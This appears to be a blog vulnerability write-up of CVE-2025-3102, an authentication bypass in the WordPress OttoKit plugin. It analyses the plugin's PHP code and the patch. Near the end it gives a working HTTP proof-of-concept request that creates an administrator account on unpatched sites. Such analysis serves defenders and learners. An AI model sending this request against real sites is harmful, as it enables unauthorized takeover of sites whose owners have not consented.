

<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-3102](https://www.cve.org/CVERecord?id=CVE-2025-3102)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 1.0.78
* **Patched Versions**: 1.0.79
* **CVSS severity**: High (8.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress OttoKit Plugin](https://wordpress.org/plugins/suretriggers/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **OttoKit**:

  * `1.0.78` – **vulnerable**
  * `1.0.79` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any other diff tool.

## Analysis

The plugin registers the API as follows:

```php {title="RoutesController.php v1.0.78" hl_lines=[] data-open=true}
$rest_controller_obj         = RestController::get_instance();
register_rest_route(
    SURE_TRIGGERS_REST_NAMESPACE, // sure-triggers/v1
    'automation/action',
    [
        'methods'             => WP_REST_Server::CREATABLE, // POST, PUT, PATCH
        'callback'            => [ $rest_controller_obj, 'run_action' ],
        'permission_callback' => [ $rest_controller_obj, 'autheticate_user' ],
    ]
);
```

With this configuration, the full API endpoint is:

```
/wp-json/sure-triggers/v1/automation/action
```

When a request reaches this endpoint with a valid method, the callback `run_action` will be executed, but first it must pass the permission check function `autheticate_user`.

```php {title="RestController.php v1.0.78" hl_lines=[] data-open=true}
public function autheticate_user( $request ) {
    $secret_key       = $request->get_header( 'st_authorization' );
    list($secret_key) = sscanf( $secret_key, 'Bearer %s' );

    if ( $this->secret_key !== $secret_key ) {
        return false;
    }

    return true;
}
```

The `autheticate_user` function authenticates requests based on a secret key sent in the HTTP header.

The client sends a header in the following format:

```
st_authorization: Bearer ABC123SECRET
```

The server extracts `ABC123SECRET` and compares it with the secret key stored in the system.

When the plugin is **installed** and **activated** but the API key has not been configured:


The variable `$this->secret_key` will be `null`. If an attacker sends a request without a valid header, the extracted `$secret_key` from the request will also be `null`. When compared:

```php
// st_authorization: Bearer 

$this->secret_key !== $secret_key   // null !== null → false
```

The condition fails and the function returns `true`, resulting in an authentication bypass.

At this point, `run_action` is executed to process the request.

```php {title="RestController.php v1.0.78" hl_lines=[57,58,59,60] data-open=true}
public function run_action( $request ) {
    $request->get_param( 'wp_user_id' );

    $user_id          = $request->get_param( 'wp_user_id' );
    $automation_id    = $request->get_param( 'automation_id' );
    $integration      = $request->get_param( 'integration' );
    $action_type      = $request->get_param( 'type_event' );
    $selected_options = $request->get_param( 'selected_options' );
    $context          = $request->get_param( 'context' );
    $fields           = $request->get_param( 'fields' );

    if ( empty( $user_id ) ) {
        $user_id = isset( $context['pluggable_data']['wp_user_id'] ) ? sanitize_text_field( $context['pluggable_data']['wp_user_id'] ) : '';
    }

    if ( empty( $integration ) || empty( $action_type ) ) {
        return self::error_message( 'Integration or action type is missing' );
    }

    if ( isset( $selected_options['wp_user_email'] ) && ! ( 'EDD' === $integration && 'find_user_purchased_download' === $action_type ) ) {
        $is_valid = WordPress::validate_email( $selected_options['wp_user_email'] );

        if ( ! $is_valid->valid ) {
            if ( $is_valid->multiple ) {
                return self::error_message( 'One or more email address is not valid.' );
            } else {
                return self::error_message( 'Email address is not valid.' );
            }
        }

        if ( str_contains( $selected_options['wp_user_email'], ',' ) ) {
            $email_list = explode( ',', $selected_options['wp_user_email'] );

            foreach ( $email_list as $single_email ) {
                if ( ! email_exists( trim( $single_email ) ) ) {
                    return self::error_message( 'User with email ' . $single_email . ' does not exists.' );
                }
            }
        } else {
            if ( ! email_exists( $selected_options['wp_user_email'] ) ) {
                return self::error_message( 'User with email ' . $selected_options['wp_user_email'] . ' does not exists.' );
            }
        }
    }
    $registered_actions = EventController::get_instance()->actions;
    $action_event       = $registered_actions[ $integration ][ $action_type ];

    $fun_params = [
        $user_id,
        $automation_id,
        $fields,
        $selected_options,
        $context,
    ];

    try {
        $result = call_user_func_array(
            $action_event['function'],
            $fun_params
        );
        return self::success_message( $result );
    } catch ( Exception $e ) {
        return self::error_message( $e->getMessage(), 400 );
    }
}
```

The `run_action()` function begins by extracting required parameters via `$request->get_param()`.

If `wp_user_id` is not provided directly, the system falls back to the value in `context['pluggable_data']['wp_user_id']`, ensuring a user context is always available.

Next, mandatory fields are validated. If `integration` or `type_event` is missing, the function stops and returns an error. If `selected_options['wp_user_email']` exists, the system validates the email format, splits multiple values if present, and verifies whether the email exists in WordPress.

> [!TIP]
> The `wp_user_email` parameter can be omitted to bypass this validation.

After passing all validations, the system loads the registered actions via the Singleton:

```php
EventController::get_instance()->actions
```

This is a mapping between `integration` and `action_type`, where each entry contains a callable function.

Based on `integration` and `type_event`, the target action is resolved:

```php
$action_event = $registered_actions[$integration][$action_type];
```

The callable function is retrieved from:

```php
$action_event['function']
```

The function parameters are packaged as:

```php
$user_id,
$automation_id,
$fields,
$selected_options,
$context
```

Finally, the function is dynamically invoked using:

```php
call_user_func_array($action_event['function'], $fun_params);
```

This mechanism allows the system to execute different actions dynamically based on request data rather than hard-coded logic. The return value is wrapped as a success response or an error if an exception occurs.

A critical scenario occurs when `integration` is `WordPress` and `type_event` is `create_user_if_not_exists`, which triggers automatic user creation if the user does not already exist.


When `call_user_func_array` is executed, `_action_listener` is triggered:

```php {title="create-user-if-not-exists.php v1.0.78" hl_lines=[33] data-open=true}
public function _action_listener( $user_id, $automation_id, $fields, $selected_options ) {
    $email     = sanitize_email( $selected_options['user_email'] );
    $user_name = sanitize_text_field( $selected_options['user_name'] );

    /**
     * User Data
     */
    
    $user_pass = empty( $selected_options['password'] ) ? wp_generate_password() : $selected_options['password'];
    
    $userdata               = [
        'user_login' => $selected_options['user_name'],
        'user_email' => $email,
        'first_name' => $selected_options['first_name'],
        'last_name'  => $selected_options['last_name'],
        'user_pass'  => $user_pass,
        'role'       => $selected_options['role'],
    ];
    $force_update_user_role = $selected_options['force_update_user_role'] ? 'yes' : 'no';

    $add_user_roles = $selected_options['add_user_roles'] ? 'yes' : 'no';
    $show_password  = $selected_options['show_password'];

    $user = get_user_by( 'email', $email );
    if ( ! $user ) {
        $user = get_user_by( 'login', $user_name );
    }
    
    if ( $user ) {
        ...
        wp_update_user( wp_slash( $userdata ) );
    } else {
        $user_id = wp_insert_user( wp_slash( $userdata ) );
    }
    ...
}
```

This function reads parameters from the request, normalizes data (email, username, password), then checks whether the user already exists via **email** or **username**. If the user does not exist, a new account is created using `wp_insert_user`; otherwise, the existing user is updated.

Based on the analysis flow, all input parameters are fully controllable by the attacker through the request, including the **`role`** field. When `_action_listener()` executes, a new user can be created with an attacker-defined role, including **administrator**, resulting in full site compromise.

The patch in version `1.0.79` introduces strict validation for the `secret_key` before comparison.


It validates data types, checks for empty values on both the request header and the configured secret key, and replaces the direct comparison with `hash_equals()` to prevent timing attacks. As a result, requests without a properly configured API key or valid header are rejected, eliminating the authentication bypass.

## Flow



## Proof of Concept (PoC)

Send request:

```http
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: localhost
st_authorization: Bearer 

wp_user_id=1&integration=WordPress&type_event=create_user_if_not_exists&selected_options[user_name]=hacker&selected_options[password]=hacker&selected_options[role]=administrator&selected_options[user_email]=hacker@gmail.com&selected_options[first_name]=hacker
```


2. Log in with the user you just created.

## Conclusion

CVE-2025-3102 is an **authentication bypass** vulnerability in the WordPress OttoKit plugin (≤ 1.0.78), caused by missing validation of empty `secret_key` values in the `autheticate_user()` function. When the plugin is installed but the API key is not configured, requests with an empty header can bypass authentication.

After bypassing authentication, an attacker can directly access the `run_action()` endpoint and fully control input parameters. By triggering the `create_user_if_not_exists` action, the attacker can create new accounts with arbitrary roles, including administrator, leading to full site compromise.

Version 1.0.79 fixes the issue by enforcing strict input validation and using `hash_equals()` for secure comparison, effectively preventing authentication bypass.

## Key Takeaways

* Authentication logic must always validate empty values and data types.
* Authorization mechanisms should fail closed when misconfigured or in an invalid state.
* Dynamic function execution based on user input significantly increases the attack surface.
* Sensitive parameters such as roles should never be directly controllable by clients.
* Misconfiguration scenarios must be tested, not only normal operational paths.
* Keep plugins updated to patched versions to reduce security risk.

## References

[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress OttoKit Plugin <= 1.0.78 is vulnerable to a high priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-plugin-1-0-78-authorization-bypass-vulnerability)
